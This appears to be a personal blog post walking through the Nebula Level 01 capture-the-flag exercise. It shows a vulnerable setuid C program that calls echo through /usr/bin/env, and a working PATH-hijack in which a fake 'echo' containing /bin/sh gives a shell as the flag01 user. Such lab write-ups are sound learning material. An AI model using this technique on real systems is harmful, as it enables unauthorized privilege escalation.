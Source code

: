 ```yaml
---
author: alvaro
comments: true
layout: post
title: 'Nebula Level 01'
categories:
- Archive
tags:
- security
---
```


I’ve been reading about security these months ago. I really enjoy learning each day but I think that sometimes is to much theory and I feel the necessity to start practice and gain more confidence about what I was reading. Please you do not misunderstand me, I think that theory plays a main role in security but in the process of learning the practice give you more sight about everything.

Yesterday I downloaded the first virtual machine from [Exploit Exercises](https://exploit-exercises.com). The second exercise show you the next snippet and it encourages you to try find out the vulnerability . 


```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Basically the `setresgid` and `setresuid` set the program to run with the owner’s permission. These functions have some kind of nuances depending in the system where they are executed. I encourage to read the following [paper](https://www.usenix.org/legacy/event/sec02/full_papers/chen/chen.pdf) to understand it better. Perhaps in other post I will write about them, because thanks to the book [The Art of Software Security Assessment](http://www.amazon.es/The-Software-Security-Assessment-Vulnerabilities/dp/0321444426) I have learned a little bit about their nuances. In this case the file has an user `flag01` since if in the terminal we execute we observe.

```bash
$ find . -type f -perm +6000 -ls 2> /dev/null
12962    8 -rwsr-x---   1 flag01   level01      7322 Nov 20  2011 ./flag01
```

It is a suid program. It sets the Real, Effective and Saved UIDs the same as the Effective UID. This is so that the SUID process is now effectively running as if called by the owner `flag01`. The main issue with this snippet is when it calls `echo` without specifying the absolute path or using `/usr/bin/env` because otherwise it would have execute the built-in echo. But how it uses`/usr/bin/env` it will try to find the echo executable in the variable $PATH. However $PATH is controlled by us, so we could trick the program to use another malicious echo binary. It would be enough to do the next to get a shell.

```bash
$ echo '/bin/sh' > /path/echo
$ chmod +x /path/echo
$ PATH=/path/:$PATH
$ ./flag01
sh-4.2$
```

I know that maybe this exercise is easy but as always we have to start from the beginning and never stop to grow. 


{% include twitter_plug.html %}

	